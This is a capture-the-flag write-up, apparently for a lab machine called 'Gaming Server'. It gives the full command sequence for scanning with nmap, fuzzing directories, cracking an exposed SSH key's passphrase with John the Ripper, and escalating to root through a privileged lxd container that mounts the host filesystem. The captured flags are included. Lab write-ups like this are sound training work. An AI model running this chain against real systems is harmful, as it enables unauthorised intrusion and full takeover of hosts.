 * Running Nmap
```
nmap -p- --min-rate=1000 10.10.165.228
```

![](attachments/nmap_first_scan.png)

-> all ports are filtered
-> for more detailed NMAP scan:

```
nmap -sC -sV 10.10.165.228 -p22,80 -o nmap
```

![](attachments/nmap2.png)

-> fuzzing directories through FFUF 

```
ffuf -u http://10.10.165.228/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt
```


![](attachments/Gaming%20Server%20CTF%20ffuf.png)

-> searching directories through gobuster

```
gobuster dir -u http://10.10.165.228 -u /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![](attachments/Gaming%20Server%20CTF%20gobuster.png)


* looking at the side's page source we find the username john :
* as shown by the gobuster moving to the directory /secret give the ssh private key however login is not successful since it contains passphrase
* trying to bruteforce the ssh private key
* i googled a bit and found this tutorial on how to [crack ssh private key](https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810/)
 * first i downloaded the ssh2john and converted the private key to hash



````
wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py
````

````
ssh2john rsaprivkey >rsaprivkey.hash
````


````
john --wordlist=/usr/share/wordlists/rockyou.txt rsaprivkey.hash
````


gives me the password: **letmein**

now sshing to the shell

```
ssh -i priv_key john@10.10.165.228
```

passphrase:letmein

cat user.txt returns **a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e**

running id shows user running lxd which lets escalate our privilege
I don't know much about lxd  so I took help of google and got this awesome 
page [lxd_privesc](https://vk9-sec.com/lxd-privilege-escalation/#:~:text=lxd%20%E2%80%93%20privilege%20escalation%201%201.%20In%20this,execute%20bash%20within%20the%20instance%20...%20More%20items) and [lxd-another-technique](https://www.hackingarticles.in/lxd-privilege-escalation/)


the sequence of commands that i ran with the help of website are:


````
lxd init
````

````
lsb_release -a
````

````
lxc init ubuntu:18.04 test -c security.privileged=true
````

````
lxc config device add test whatever disk source=/ path=/mnt/root recursive=true
````

````
lxc start test
````

````
lxc info test
````

````
lxc exec test bash
````

````
cd /mnt/root
````

which gives me rootflag.txt ---> **2e337b8c9f3aff0c2b3e8d4e6a7c88fc**

![](attachments/Gaming%20Server%20CTF%20root.png)

